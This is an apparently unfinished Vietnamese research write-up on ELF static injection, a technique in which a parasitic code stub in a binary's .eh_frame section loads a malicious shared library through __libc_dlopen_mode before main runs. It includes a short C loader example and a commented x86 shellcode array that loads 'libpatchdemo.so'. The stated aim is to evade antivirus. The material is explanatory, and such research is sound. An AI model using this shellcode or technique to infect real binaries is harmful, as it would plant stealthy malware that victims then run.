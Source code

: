 # ELF Static Injection

**TL;DR:** Trong bài nghiên cứu này, em sẽ trình bày cách thức để một malicious dynamic link library được load lên dựa trên quá trình khởi chạy của một tiến trình.  

## Introduction 

Như chúng ta đã biết, kỹ thuật **dll hijacking** trên Windows hay **so hijacking** trên Linux đều sử dụng chung ý tưởng, đó là chèn một đoạn code nhỏ vào chương trình đang chạy, nhằm load lên một con malicious dynamic link libary. Kỹ thuật này được gọi là **dynamic injection** và chúng phải yêu cầu quyền administrator hoặc file owners mới có thể chạy được.    

Việc viết trực tiếp mã độc vào những section cụ thể của file ELF gặp nhược điểm đó là dễ bị phát hiện và phòng ngừa bởi các phần mềm anti-virus. Có một cách viết mã độc khác đó là chỉ viết một đoạn code thông thường để có thể load được malicious dynamic link library. Toàn bộ logic của mã độc sẽ được đóng gói lại thành `so` và sẽ được thực thi sau khi nó được load lên. 

Đối với kỹ thuật ELF Static Injection, lợi dụng quá trình xử lý của loader, mã độc sẽ được load lên và thực thi ngay trước cả khi hàm `main` được gọi. 

Về ý tưởng, chúng ta sẽ thay đổi một số section thường được hacker sử dụng để viết malware. Trong bải phân tích này, ta sẽ chọn `.eh_frame` section, viết 1 đoạn nhỏ assembly code (hay còn được gọi là **parasitic code**) và load `so` lên bởi hàm `__libc_dlopen_mode` được cung cấp bởi `libc`. Ví dụ này sẽ giúp chúng ta hiểu hơn về cách thức hoạt động của ý tưởng trên.  

```c
int main(int argc, char const *argv[])
{
    char lib_name[] = "malware.so";
    void * handle = __libc_dlopen_mode(lib_name, RTLD_LAZY);
    func = dlsym(handle, "hello_world");
    func();
    return 0;
}
```

## ELF Entry Point 

Ở trên góc độ của một lập trình viên, hàm `main` là điểm khởi đầu của mọi chương trình C/C++. Nhưng đối với OS, `_start` mới thực sự là entry point của một chương trình. Để hiểu rõ hơn, chúng ta có thể tham khảo [tài liệu này](http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html)

![](../Images/ELF_Static_Injection/1.png)

## Libc Base Address

Để có thể gọi được hàm `__libc_dlopen_mode` của `libc`, chúng ta phải biết được giá trị của `libc base`, từ đó mới có thể tính toán và gọi được chính xác hàm này. 

Em sẽ tiếp tục đi phân tích phần này khi có thêm nhiều thời gian hơn. 

## Parasitic Code

Sau khi đã tính toán được `libc base`, chúng ta hoàn toàn có thể load được `so` độc hại lên. Nhưng để tránh việc chương trình bị crash, parasitic code cần phải đảm bảo được trạng thái ban đầu của các thanh ghi. Nghĩa là, trước khi load `so`, ta sẽ đi lưu toàn bộ giá trị thanh ghi. Sau khi load `so` xong, ta sẽ khôi phục lại toàn bộ giá trị thanh ghi đã lưu và tiếp tục đi vào hàm `main` như thông thường. 

![](../Images/ELF_Static_Injection/2.png)

Dưới đây là shellcode mẫu để load lên `so` độc hại `libpatchdemo.so`
```c
uint8_t sc_x86[] = \
    /* start */
    "\x55"                            // push   ebp
    "\x89\xe5"                        // mov    ebp, esp
    "\x83\xec\x28"                    // sub    esp, 28h
    "\xc7\x45\xe4\x6c\x69\x62\x70"    // mov    DWORD PTR [ebp-0x1c],0x7062696c
    "\xc7\x45\xe8\x61\x74\x63\x68"    // mov    DWORD PTR [ebp-0x18],0x68637461
    "\xc7\x45\xec\x64\x65\x6d\x6f"    // mov    DWORD PTR [ebp-0x14],0x6f6d6564
    "\xc7\x45\xf0\x2e\x73\x6f\x00"    // mov    DWORD PTR [ebp-0x10],0x6f732e
    "\x6a\x01"                        // push   0x1
    "\x8d\x6d\xe4"                    // lea    ebp, [ebp-0x1c]
    "\x55"                            // push   ebp
    "\x8b\x4b\x0c"                    // mov ecx, DWORD PTR [ebx + 0xc]
    "\x81\xe9\xe0\xf4\x13\x00"        // sub ecx, 0x0013F4E0
    "\x81\xc1\xf0\xea\x13\x00"        // add ecx, 0x0013EAF0
    "\xff\xd1"                        // call   ecx --> <__libc_dlopen_mode@plt>
    /* */
    "\x83\xc4\x08"                    // add    esp, 0x8
    "\xc9"                            // leave
    /* end */
    "\xe8"                            // call   <_start> (e8 ** = _start - eip) 
    "\x00\x00\x00\x00";
```